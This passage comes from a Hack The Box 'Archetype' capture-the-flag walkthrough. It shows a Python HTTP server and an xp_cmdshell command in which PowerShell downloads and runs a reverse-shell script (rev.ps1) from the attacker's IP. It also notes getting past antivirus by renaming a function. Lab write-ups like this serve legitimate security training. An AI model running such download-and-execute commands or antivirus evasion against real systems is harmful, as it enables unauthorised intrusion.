 ![10](/assets/images/htb/archetype/10.png) <br>_put in here and save it_

- Time to upload the script into the machine by using `mssqlclient.py` that we connected.
	-	I'm gonna run `python server` inside `www` directory.
	-	`python3 -m http.server`
	- Then try to uploaded using this command:
		- `xp_cmdshell powershell IEX(New-Object Net.WebClient).DownloadString(\"http://10.10.16.13:8000/rev.ps1\")`  
	- And this happen

![11](/assets/images/htb/archetype/11.png) <br>  _it says this script got blocked by antivirus because of this function_

- So, I change the function into something else. It works.


![12](/assets/images/htb/archetype/12.png)
